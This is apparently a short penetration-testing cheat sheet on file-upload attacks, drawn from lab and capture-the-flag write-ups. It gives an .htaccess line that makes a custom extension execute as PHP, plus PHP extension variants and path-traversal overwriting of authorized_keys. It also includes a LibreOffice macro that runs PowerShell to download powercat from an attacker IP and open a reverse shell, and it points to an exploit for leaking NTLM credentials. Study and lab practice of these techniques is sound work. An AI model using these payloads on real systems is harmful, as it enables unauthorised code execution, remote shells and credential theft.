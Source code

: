 #### HTACCESS BYPASS

```
#Upload a custom .htaccess file. (https://br4ind3ad.medium.com/port-swigger-file-upload-vulnerability-lab-4-4c2bf39eeaf)
#This means all files with the extension evil with execute as PHP.
AddType application/x-httpd-php .evil
```

### Extension 

```
#Modify the original extension
eg. phps, pHp, php7, phtml.
```


### Over Writing
![[Pasted image 20231205204847.png]]

The response shows the ../../ indicating we may be able to overwrite files.

Create a SSH key and authroized_keys file.

![[Pasted image 20231205205001.png]]

Select your file and edit the path to overwrite a folder.

![[Pasted image 20231205205011.png]]


### ODT

```
Reference: https://al1z4deh.medium.com/proving-grounds-craft-c92de878e004 OR https://dominicbreuker.com/post/htb_re/

#Steps In LibreOffice
1. Create new document.
2. Add macro: Tools -> Macros -> Organise Macros -> Basic
3. Edit new Macro.

REM  ***** BASIC *****

Sub Main
	Shell("cmd /c powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>/powercat.ps1'); powercat -c <ip> -p <port> -e powershell"")
End Sub

4. Might pay to just do a curl first to test the code execution is working.

```


```
#Generates ODF file which can be used to leak NTLM credentials.
https://www.exploit-db.com/exploits/44564
```